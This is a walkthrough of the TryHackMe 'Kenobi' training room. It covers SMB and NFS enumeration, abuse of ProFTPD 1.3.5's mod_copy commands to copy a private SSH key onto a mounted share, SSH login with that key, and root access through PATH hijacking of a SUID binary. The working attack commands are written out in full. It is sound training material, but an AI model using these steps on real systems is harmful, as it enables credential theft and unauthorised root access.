+++
tags = ["TryHackMe", "Samba", "proftpd", "SUID binary"]
title = "Kenobi - TryHackMe"
weight = 20
draft = false
+++

Date written: November 20th, 2023       
Date published: November 22nd, 2023


### Task 1: Deploying the Vulnerable Machine

This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.

The first step to any TryHackMe machine is to actually deploy the machine by either connecting to OpenVPN or by using AttackBox. For this machines I chose AttackBox.

>Make sure you're connected to our network and deploy the machine. 

>No answer needed!

Next I did a standard NMAP scan on the machine.

```nmap 10.10.2.251```

Once the scan completed I could see there were seven open ports.

```bash
Nmap scan report for ip-10-10-2-251.eu-west-1.compute.internal (10.10.2.251)
Host is up (0.00063s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
MAC Address: 02:55:B9:EF:01:D9 (Unknown)
```




>Scan the machine with nmap, how many ports are open?

>Answer: 7

### Task 2: Enumerating Samba for Shares

"Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network." - [TryHackMe](https://tryhackme.com/room/kenobi)

In the next task is all about SMB and enumerating it's shares with NAMP. 

The script that I used to enumerate SMB shares was smb-enum-shares and smb-enum-users on port 445. SMB has two ports, 445 and 139.

[smb-enum-shares](https://nmap.org/nsedoc/scripts/smb-enum-shares.html) will enumerate the SMB shares.

[smb-enum-users](https://nmap.org/nsedoc/scripts/smb-enum-users.html) will enumerate the SMB users. 

```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.2.251```



```bash
PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:55:B9:EF:01:D9 (Unknown)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.2.251\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.2.251\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.2.251\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

After enumerating the shares and the users I found that there are three shares available - IPC$, anonymous, and printers

>Using the nmap command above, how many shares have been found?

>Answer: 3

Next I tried to log into the share with **smbclient** as **anonymous** and no password.

```smbclient //10.10.2.251/anonymous```



Once I was logged in I ran ```ls``` to see what files the user has access to. Not running any flags with ls will cause an error.



>Once you're connected, list the files on the share. What is the file can you see?

>Answer: log.txt

Once I knew what was on the share I closed out of smb share connection and downloaded the log file with ```smbget -R smb://10.10.2.251/anonymous```

After a successful download I opened the file in nano to read it contents. This can also be done via ```cat``` or your favorite text editor (vim, gedit, etc).

I see that the server is running ProFTPD on port 21. There is also quite a bit of other useful information in this file that I would take note of if this were a real pentest, like the public SSH key or the authentication information.

>What port is FTP running on?

>Answer: 21

Next I pivoted back to my NMAP results to see that RPCbind is running on port 111. I can use this to enumerate the network file system.

Running the scripts nfs-ls,nfs-statfs,nfs-showmount (look up scripts)

[nfs-ls](https://nmap.org/nsedoc/scripts/nfs-ls.html) attempts to get useful inforamtion from an SMB share with the output resembling the ```ls``` command.

[nfs-statfs](https://nmap.org/nsedoc/scripts/nfs-statfs.html) attempts to get disk space information from the SMB share with the output resembling the ```df``` command.

[nfs-showmount](https://nmap.org/nsedoc/scripts/nfs-showmount.html) shows mount information like the ```showmount -e``` command.


```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.2.251```



```bash
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836536.0  6877092.0  22%   16.0T        32000
MAC Address: 02:B9:E3:41:0F:B9 (Unknown)
```

>What mount can we see?

>Answer: /var


### Task 3: Gain Initial Access with ProFtpd

"ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions." - [TryHackMe](https://tryhackme.com/room/kenobi)

I start off with a NetCat [banner grab](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp#enumeration). 



```bash
root@ip-10-10-44-242:~# nc -vn 10.10.48.208 21
Connection to 10.10.48.208 21 port [tcp/*] succeeded!
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.208]
```

>Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port. What is the version?

> 1.3.5

Now that I know the version of the software I can move to [Searchsploit](https://book.hacktricks.xyz/generic-methodologies-and-resources/search-exploits) to see if there are any known exploits for this version of ProFTPD. This can be done in the terminal or in your [browser](https://www.exploit-db.com/search) which ever you are comfortable with, but I personally prefer the terminal. 

Using specific terms will help narrow down Searchsploit results, but it can also hinder them. So I am always carful to start a wide search and then narrow it down to a more specific version or exploit type. 



> How many exploits are there for the ProFTPd running?

> Answer: 4

After finding which exploit to use I navigate to the file path provided in Searchsploit, read the exploit, and make sure it will fit my needs. In this case it does, but it is a little too indepth. So I use what the exploit is doing and apply it to my needs. Typically I would [copy](https://www.freecodecamp.org/news/the-linux-cp-command-how-to-copy-files-in-linux/) the exploit to a new file, but in this case I don't need a separate exploit file at all.

```bash
root@ip-10-10-44-242:~# searchsploit -p 37262
  Exploit: ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/37262
     Path: /opt/exploitdb/exploits/linux/remote/37262.rb
    Codes: CVE-2015-3306, OSVDB-120834
 Verified: True
File Type: Ruby script, ASCII text
```

```bash 
cp /opt/exploitdb/exploits/linux/remote/37262.rb ~/Desktop
```

Reading the ProFTPD page for the [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html). I see that I can use the commands SITE CPFR and SITE CPTO to copy Kenobi's  private ssh key to my tmp directory. 



> We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

> Answer: No answer needed

```bash
root@ip-10-10-184-203:~# nc 10.10.48.208 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.208]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
> We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

> Answer: No answer needed

After copying the directory I mount it to my machine with:
```bash
root@ip-10-10-184-203:~/Downloads# mkdir /mnt/kenobiNFS
root@ip-10-10-184-203:~/Downloads# mount 10.10.48.208:/var /mnt/kenobiNFS
```

Once mounted running an ```ls -lsa /mnt/kenobiNFS``` command will output the contents of the directory.



Now I know we have the ssh key so all I have to do is copy the value to my local folder.
```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
```

Adding a period or decimal in place of the destination will copy the file to the current working directory. After copying the value I set the permissions to read and write.
```bash
sudo chmod 600 id_rsa
```

Once that is done all that's left to do is log in as Kenobi.
```bash
ssh -i id_rsa kenobi@10.10.48.208
```



Once logged in you can cat the user flag.

> What is Kenobi's user flag (/home/kenobi/user.txt)?

> Answer: user.txt's value. 

### Task 4: Privilege Escalation with Path Variable Manipulation 

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: ```find / -perm -u=s -type f 2>/dev/null```



> What file looks particularly out of the ordinary?

> Answer: /usr/bin/menu

> Run the binary, how many options appear?

> 3



The next step is not necessary for this machine, but I like to stay in practice by looking through everything I come across. So I ran the binary three times and selected each option to see what happened or if we could enumerate any additional information from them.

You do see that they are running with out using the full path of /usr/bin/curl, /usr/bin/uname, and /usr/bin/ifconfig.

Knowing this will allow me to manipulate my path to elevate my privileges. First I cd into my tmp directory. Then I echo the path of a bash shell to my curl command, set it's privileges, and set my path. Now I can run the binary to elevate to root. 

```bash
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu
```


> We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

> Answer: No answer needed.

All thats left is to cat your root flag at /root/root.txt.

> What is the root flag (/root/root.txt)?

> Answer: root.txt's value


And that's root! Happy Hacking!
